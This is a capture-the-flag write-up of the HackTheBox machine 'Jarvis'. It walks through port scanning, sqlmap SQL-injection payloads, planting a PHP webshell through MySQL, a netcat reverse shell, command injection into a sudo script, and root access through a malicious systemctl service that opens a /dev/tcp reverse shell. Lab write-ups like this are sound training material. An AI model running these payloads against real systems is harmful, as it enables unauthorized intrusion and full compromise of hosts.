

---
tags:
  - hack
  - linux
---
# HackTheBox: [Jarvis](https://app.hackthebox.com/machines/Jarvis)

## Services

### TCP

`nmap` TCP scan:

```console
# Nmap 7.94SVN scan initiated Mon Sep  9 14:44:23 2024 as: nmap -v --reason -Pn -T4 --min-rate 10000 -p- --open -sCV -oN nmap_tcp-jarvis.htb.txt jarvis.htb
Nmap scan report for jarvis.htb (10.10.10.143)
Host is up, received user-set (0.090s latency).
rDNS record for 10.10.10.143: t
Not shown: 58706 closed tcp ports (reset), 6826 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp    open  http    syn-ack ttl 63 Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Stark Hotel
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
64999/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep  9 14:44:49 2024 -- 1 IP address (1 host up) scanned in 26.32 seconds
```

#### 80/tcp-http

```console
$ whatweb -a3 http://supersecurehotel.htb
http://supersecurehotel.htb [200 OK] Apache[2.4.25], Bootstrap[3.3.5], Cookies[PHPSESSID], Country[RESERVED][ZZ], Email[supersecurehotel@logger.htb], HTML5, HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], IP[10.10.10.143], JQuery, Modernizr[2.6.2.min], Open-Graph-Protocol, Script, Title[Stark Hotel], UncommonHeaders[ironwaf], X-UA-Compatible[IE=edge]
```

`http://supersecurehotel.htb/phpmyadmin/index.php`:



`feroxbuster`:

```console
301      GET        9l       28w      333c http://supersecurehotel.htb/phpmyadmin => http://supersecurehotel.htb/phpmyadmin/
301      GET        9l       28w      327c http://supersecurehotel.htb/sass => http://supersecurehotel.htb/sass/
```

#### 64999/tcp-http

```console
$ curl http://supersecurehotel.htb:64999/
Hey you have been banned for 90 seconds, don't be bad

$ curl t:64999 -I
HTTP/1.1 200 OK
Date: Mon, 09 Sep 2024 21:00:11 GMT
Server: Apache/2.4.25 (Debian)
Last-Modified: Mon, 04 Mar 2019 02:10:40 GMT
ETag: "36-5833b43634c39"
Accept-Ranges: bytes
Content-Length: 54
IronWAF: 2.0.3
Content-Type: text/html
```

## Remote Code Execution

Using `sqlmap` (which definitely feels like cheating) I was able to dump the `mysql.user` table to retrieve an admin hash:

```sql
| localhost | DBadmin | N       | *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0 [...]
```

Which CrackStation has an entry for:


Here's what `sqlmap` figured out:

```console
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cod (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cod=1 AND 9394=9394

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cod=1 AND (SELECT 9109 FROM (SELECT(SLEEP(5)))GejC)

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: cod=-2659 UNION ALL SELECT NULL,CONCAT(0x7178767871,0x4b5a6b41527661635575526b5270484a4e7477457764496f6a736c42737a796571484f4c61755567,0x716a627a71),NULL,NULL,NULL,NULL,NULL-- -
---
```

The password gets me into the `/phpmyadmin` console.

From there I can read `/etc/passwd`:

```text
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false _apt:x:104:65534::/nonexistent:/bin/false messagebus:x:105:110::/var/run/dbus:/bin/false pepper:x:1000:1000:,,,:/home/pepper:/bin/bash mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false sshd:x:107:65534::/run/sshd:/usr/sbin/nologin
```

One human user, `pepper`.

I was able to add a PHP webshell:

```sql
select '<?php if(isset($_GET[\'cmd\'])) { system($_GET[\'cmd\'] . \' 2>&1\'); } ?>' into outfile '/var/www/html/sh.php'
```

```console
$ curl http://jarvis.htb/sh.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Shell via:

```console
$ curl "http://jarvis.htb/sh.php?cmd=busybox%20nc%2010.10.14.13%20443%20-e%20sh"
```

```console
sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

```console
www-data@jarvis:/var/www/html$ sudo -u pepper /var/www/Admin-Utilities/simpler.py
***********************************************
     _                 _
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/
                                @ironhackers.es

***********************************************

Enter an IP: $(bash)
```

Then I use that for a reverse shell:

```console
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.143] 36728
id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
```

## Privilege Escalation

```console
pepper@jarvis:~$ find / -perm -4000 2>/dev/null
...
/bin/systemctl
```

Malicious config to abuse `systemctl`:

```console
pepper@jarvis:~$ cat x
[Unit]
Description=hax

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'

[Install]
WantedBy=multi-user.target
```

```console
pepper@jarvis:~$ systemctl enable /home/pepper/x.service
Created symlink /etc/systemd/system/multi-user.target.wants/x.service -> /home/pepper/x.service.
Created symlink /etc/systemd/system/x.service -> /home/pepper/x.service.
pepper@jarvis:~$ systemctl start x
```

```console
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.143] 36746
bash: cannot set terminal process group (17629): Inappropriate ioctl for device
bash: no job control in this shell
root@jarvis:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@jarvis:/# cat /root/root.txt
cat /root/root.txt
a7b0296...
```
